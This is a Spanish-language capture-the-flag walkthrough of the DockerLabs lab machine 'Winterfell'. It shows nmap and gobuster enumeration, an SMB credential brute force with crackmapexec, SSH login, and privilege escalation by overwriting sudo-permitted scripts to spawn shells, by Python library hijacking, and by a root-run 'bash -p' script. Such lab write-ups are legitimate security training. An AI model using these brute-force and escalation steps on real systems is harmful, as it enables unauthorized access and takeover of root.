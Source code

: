 # Máquina Winterfell

Enlace a la máquina -> [Dockerlabs](https://mega.nz/file/Qaky0DoJ#AfyxhrLvz8n_Kxefe-61c5n81T9CqtGeU_Ybk5Xv0bA)

![imagen](https://github.com/user-attachments/assets/7c675fe8-f26f-4fcf-bed4-ec3efa1f1ada)

- **Nombre de la Máquina:** Winterfell
- **Sistema Operativo:** Linux
- **Dificultad:** Easy
- **Plataforma:** DockerLabs
- **Dirección IP:** 172.17.0.2
- **Vulnerabilidades Explotadas:**
  - **SMB Brute Force**
- **Escalada de Privilegios:**
  - Uso de permisos sudo con Python y Library Hijacking.
  - Exposición de credenciales en archivos accesibles.
  - Uso de un script con permisos sudo para obtener una shell como root.

## Reconocimiento y Enumeración
Comenzamos realizando un escaneo general con nmap sobre la IP de la máquina objetivo para identificar los puertos abiertos.

```bash
sudo nmap -p- -sS --min-rate 5000 -v -n -Pn 172.17.0.2 -oN escaneo.txt
```

![imagen](https://github.com/user-attachments/assets/d42ed633-04c9-4bd1-97ef-8a5e3ffb2a7d)

Nos muestra que los puertos 22, 80, 139 y 445 están abiertos. Realizamos un análisis más detallado para determinar qué servicios se están ejecutándose en los puertos.

```bash
sudo nmap -p 22,80,139,445 -sCV 172.17.0.2 -oN targeted.txt
```

![imagen](https://github.com/user-attachments/assets/3b46ac8d-48f8-48fb-b9c1-09bb75bb4eb1)

### Puerto 80 HTTP
Lanzamos un `whatweb` para ver que servicios corren en el http.

![imagen](https://github.com/user-attachments/assets/40bd02eb-28b7-4971-98c0-a29a360f079d)

Podemos observar tres nombres de usuarios posibles nada mas entrar en la web, así que los guardaremos en un archivo llamado names.txt

![imagen](https://github.com/user-attachments/assets/6ee9f3c1-5582-4431-a97b-42d49561e9ae)

```bash
nano names.txt
jon
Arya
Daenerys
```

Seguimos investigando haciendo fuerza bruta usando gobuster para tratar de encontrar directorios.

```bash
sudo gobuster dir -u 'http://172.17.0.2/' -w /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -t 100 -x php,html,txt
```

![imagen](https://github.com/user-attachments/assets/2f62d610-bfa9-45f1-bd3a-adff678889e4)

Vemos que encontramos un directorio llamado `/dragon/` y dentro hay un archivo llamado `EpisodiosT1` el cuál contiene un texto que dice lo siguiente:

![imagen](https://github.com/user-attachments/assets/2af02080-b513-4d83-a16f-5257c89826f3)

```txt
Estos son todos los Episodios de la primera  temporada de Juego de tronos.
Tengo la barra espaciadora estropeada por lo que dejare los nombres sin espacios, perdonad las molestias

seacercaelinvierno
elcaminoreal
lordnieve
tullidosbastardosycosasrotas
elloboyelleon
unacoronadeoro
ganasomueres
porelladodelapunta
baelor
fuegoyhielo
```

Parecen ser posibles contraseñas así que me las guardaré en un txt llamado passwords.txt

### Puerto 445 SMB
Enumerando el servicio smb vemos que existe un recurso compartido llamado `shared`.

![imagen](https://github.com/user-attachments/assets/2856af9e-07e0-412e-8a7b-716563199339)

Realizo un ataque de fuerza bruta con los nombres y contraseñas enumeradas por si cabe la posibilidad de ue sean las credenciales para acceder a los recursos compartidos.

```bash
crackmapexec smb 172.17.0.2 -u names.txt -p passwords.txt
```

Resultado:
  - jon
  - seacercaelinvierno

Accedemos con el comando smblient, y nos descargamos el único archivo que existe.

```bash
smbclient -U 'jon' //172.17.0.2/shared
get proteccion_del_reino
```

![imagen](https://github.com/user-attachments/assets/91698fef-98d1-4382-bead-de8837b31c67)

![imagen](https://github.com/user-attachments/assets/b436fffe-b77a-41a8-95e4-67f515b61bfb)

El texto nos da una contraseña cifrada en base64, por lo que vamos a descifrarla:

```bash
echo 'aGlqb2RlbGFuaXN0ZXI=' | base64 -d
```

![imagen](https://github.com/user-attachments/assets/032a7f08-216a-44cc-bd3c-b6336fe1f1c6)

Ya tenemos unas credenciales para acceder vía ssh, así que probaremos.

```bash
ssh jon@172.17.0.2
hijodelanister
```

![imagen](https://github.com/user-attachments/assets/880c5493-234c-43f9-a8cb-c1f73e2045e4)

## Escalada de privilegios a `aria`
Una vez dentro somos `jon`, ejecutamos el comando `sudo -l` y vemos que podemos ejecutar con python3 el script /home/jon/.mensaje.py siendo usuario `aria`.

![imagen](https://github.com/user-attachments/assets/e482a219-3b43-4375-b7b8-c7fe3bf00ddf)

### Primera forma de escalar a `aria`.
Podemos hacer la escalada de varias maneras y una de ellas sería borrar el script y volver a crearlo pero con un comando para otorgarnos una bash.

```bash
rm .mensaje.py
nano .mensaje.py
```

```python
import os

os.system("/bin/bash")
```

Otorgamos permisos de ejecución con el comando `chmod +x .mensaje.py` y a continuación ejecutamos el script con el usuario `aria` y listo, abremos escalado al usuario `aria`.

```bash
sudo -u aria /usr/bin/python3 /home/jon/.mensaje.py
```

![imagen](https://github.com/user-attachments/assets/9cfe112c-ceef-41d8-ad80-f4e02cd5ef71)

### Segunda forma de escalar a `aria`.
La otra forma sería hacer un [Library Hijacking](https://deephacking.tech/path-hijacking-y-library-hijacking/) usando la librería hashlib de python ya que es la primera que se importa en el script.

![imagen](https://github.com/user-attachments/assets/798b969c-ff8b-496d-8bdc-c94ddd6f2322)

```html
Si nos fijamos, el primer sitio donde python comprueba de forma por defecto la existencia de la librería es en ' ', esto significa la ruta actual.
Por lo que simplemente vamos a crear un archivo que se llame hashlib.py en la ruta actual.
```

![imagen](https://github.com/user-attachments/assets/df634ba1-a786-49a5-acf6-0ed3d9d62aef)

```bash
nano hashlib.py
```

```python
import os

os.system("/bin/bash")
```

Y tan solo haciendo eso ya tendremos también la escalada al usuario `aria`.

![imagen](https://github.com/user-attachments/assets/bc669d3b-b54a-4374-8b5c-d337ff76ccba)

## Escalada de privilegios a `daenerys`
Haciendo `sudo -l` con `aria` vemos que tenemos permisos para ejecutar como el usuario `daenerys` los siguientes comandos:

```bash
(daenerys) NOPASSWD: /usr/bin/cat, /usr/bin/ls
```

![imagen](https://github.com/user-attachments/assets/4ee95d19-775a-4870-8c75-4dd0b2d9f6b5)

Podemos ejecutar el comando `ls -la` para ver ue hay en el directorio de `daenerys`, vemos que existe un archivo llamado `mensajeParaJon` y otro llamado `.secret`.

```bash
sudo -u daenerys /usr/bin/ls -la daenerys/
```

![imagen](https://github.com/user-attachments/assets/76465435-b57b-4436-a1db-d3e1815630ab)

Pues bastante fácil, el usuario `daenerys` expone su contraseña en el archivo `mensajeParaJon`.

```bash
sudo -u daenerys /usr/bin/cat daenerys/mensajeParaJon
```

![imagen](https://github.com/user-attachments/assets/d559596e-b6c4-41ca-ae28-a28a4c9d1289)

  - User: daenerys
  - Password: drakaris

![imagen](https://github.com/user-attachments/assets/d7569435-3722-4730-9494-fd87d6619d4e)

## Escalada de privilegios a Root
Ejecutando otra vez `sudo -l` pero con `daenerys`, tenemos permisos para ejecutar como root un script llamado `.shell.sh`.

```bash
(ALL) NOPASSWD: /usr/bin/bash /home/daenerys/.secret/.shell.sh
```

![imagen](https://github.com/user-attachments/assets/b59230f0-4962-4d63-b94b-c1ef1e56b2d3)

Bastante fácil también, vemos que tenemos permisos de lectura y escritura así que vamos a modificarlo, aparentemente es un script el cuál podemos mandarnos una reverse shell.

![imagen](https://github.com/user-attachments/assets/96b1f55f-0498-4987-accf-8ca7a946242f)

Lo modificaremos y pondremos lo siguiente:

```.shell.sh
#!/bin/bash

bash -p
```

Ahora cuando ejecutemos el script, como lo estaremos ejecutando como `root` lo que hará será otorgarnos una bash con privilegios.

```bash
sudo /usr/bin/bash /home/daenerys/.secret/.shell.sh
```

![imagen](https://github.com/user-attachments/assets/d7324a55-69ee-42ef-ae07-af06bd332b14)

Como podemos ver ya nos habríamos convertido en usuario root. Máquina muy chula en la que se puede aprender varios conceptos como la fuerza bruta y los distintos vectores de escaladas.
